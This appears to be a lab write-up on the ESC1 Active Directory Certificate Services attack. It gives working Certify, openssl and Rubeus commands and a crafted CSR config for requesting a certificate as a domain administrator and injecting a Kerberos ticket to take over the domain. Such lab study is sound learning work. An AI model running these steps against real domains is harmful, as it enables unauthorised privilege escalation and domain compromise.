





# From Misconfigured Certificate Template to Domain Admin

This is a quick lab to familiarize with ECS1 privilege escalation technique, that illustrates how it's possible to elevate from a regular user to domain administrator in a Windows Domain by abusing over-permissioned Active Directory Certificate Services (ADCS) certificate templates.

This lab is based on [Certified Pre-Owned: Abusing Active Directory Certificate Services](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf) whitepaper by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin\_) from [SpecterOps](https://specterops.io).

## Finding Vulnerable Certificate Templates

Once in an AD environment, we can find vulnerable certificate templates by using `Certify`, a tool released by SpecterOps as part of their research mentioned above:


```
certify.exe find /vulnerable
```


Below shows a snippet of the redacted output from `Certify`, that provides information about a vulnerable certificate:



In the above screenshot, note the following 3 key pieces of information, that tell us that the certificate template is vulnerable and can be abused for privilege escalation from regular user to domain administrator:

* `msPKI-Certificates-Name-Flag: ENROLLEE_SUPPLIES_SUBJECT` field field, which indicates that the user, who is requesting a new certificate based on this certificate template, can request the certificate for another user, meaning any user, including domain administrator user.\
  \
  Below shows the same certificate template setting via GUI when inspecting certificate templates via `certsrv.msc`:\
  \

*   `PkiExtendedKeyUsage: Client Authentication`, which indicates that the certificate that will be generated based on this certificate template can be used to authenticate to computers in Active Directory.\
    \
    Below shows the same setting via GUI when inspecting certificate templates via `certsrv.msc`:

    \

* `Enrollment Rights: NT Authority\Authenticated Users`, which indicates that any authenticated user in the Active Directory is **allowed to request** new certificates to be generated based on this certificate template.\
  \
  Below shows the same setting via GUI when inspecting certificate templates via `certsrv.msc`:\
  .png>)

## Requesting Certificate with Certify

Once the vulnerable certificate template has been identified, we can request a new certificate on behalf of a domain administator using `Certify` by specifying the following parameters:

* `/ca` - speciffies the Certificate Authority server we're sending the request to;
* `/template` - specifies the certificate template that should be used for generating the new certificate;
* `/altname` - specifies the AD user for which the new certificate should be generated.


```
certify.exe request /ca:<$certificateAuthorityHost> /template:<$vulnerableCertificateTemplateName> /altname:<$adUserToImpersonate>
```


Below shows that the certificate in `PEM` format has been issued successfully:

.png>)

## Converting PEM to PFX

As mentioned above, the certificate we just retrieved is in a `PEM` format.&#x20;

To use it with a tool like `Rubeus` to request a Kerberos Ticket Granting Ticket (TGT) for the user for which we minted the certificate, we need to convert the certificate to `PFX` format.

To do this, copy the certificate content printed out by `Rubeus` and paste it to a file called `cert.pem`.&#x20;

Then, convert it to `cert.pfx` with Open SSL (in Linux) like so:


```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```


## Requesting TGT with Certificate

Once we have the certificate in `cert.pfx`, we can request a Kerberos TGT for the user for which we minted the new certificate:


```
Rubeus.exe asktgt /user:<$adUserToImpersonate> /certificate:cert.pfx /ptt
```


Below shows that a new TGT for the target user (Domain Admin in our case) using [Rubeus](https://github.com/GhostPack/Rubeus) was requested and injected in to the current logon session (because of the `/ptt`):



At this point, we can test if we elevated our privileges to domain administrator by listing the administrative `c$` share on a server that we don't normally have local administrator privileges on:



## Bonus: Requesting Certificate Manually

This is a bonus section that shows how we can request a new certificate for a targeted user without Rubeus, but with a Certificate Signing Request (CSR) file crafted manually and later submitted to Active Directory Certificate Services self-service web portal.

### Crafting Certificate Signing Request File

Create a new file `cert.cnf` with the following contents (modify fields as deemed appropriate):


```
[ req ]
default_bits       = 2048
distinguished_name = req_distinguished_name
req_extensions     = req_ext
[ req_distinguished_name ]
countryName                 = GB
stateOrProvinceName         = State or Province Name (full name)
localityName               = Locality Name (eg, city)
organizationName           = Organization Name (eg, company)
commonName                 = Common Name (e.g. server FQDN or YOUR name)
[ req_ext ]
subjectAltName = otherName:1.3.6.1.4.1.311.20.2.3;UTF8:$adUserToImpersonate
```


The most important is line 12, which defines the `subjectAltName` field, which is a `samaccountname` of the user in Active Directory, which we want to ultimately impersonate (i.e. domain administrator) for which we will be requesting the certificate. \
\
`Samaccountname` value in this file is defined in the variable `$adUserToImpersonate` - you'd need to change it to the administrator's `samaacountname` you want to impersonate.

Once the `cert.cnf` file is ready, generate the actual Certificate Signing Request with `openssl` (in Linux):

```
openssl req -out cert-request.csr -newkey rsa:2048 -nodes -keyout key.key -config cert.cnf
```

Below shows how a base64 encoded Certificate Signing Request file `cert-request.csr` was created:

.png>)

Now, copy the contents of the `cert-request.csr` as we will need it in the last step of this process as described below.

### Requesting Certificate via CertSrv Web Portal

Navigate to `https://$adcs/certsrv`, where `$adcs` is the Active Directory Certificate Services host and click `Request a certificate`:

.png>)

Click `advanced certificate request`:

.png>)

Finally, select the vulnerable certificate template you want to base your new rogue certificate on, paste the contents of the `cert-request.csr` into the request field and hit `Submit` to retrieve the new certificate for your target user:

.png>)

## References



[Certified Pre-Owned: Abusing Active Directory Certificate Services](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)
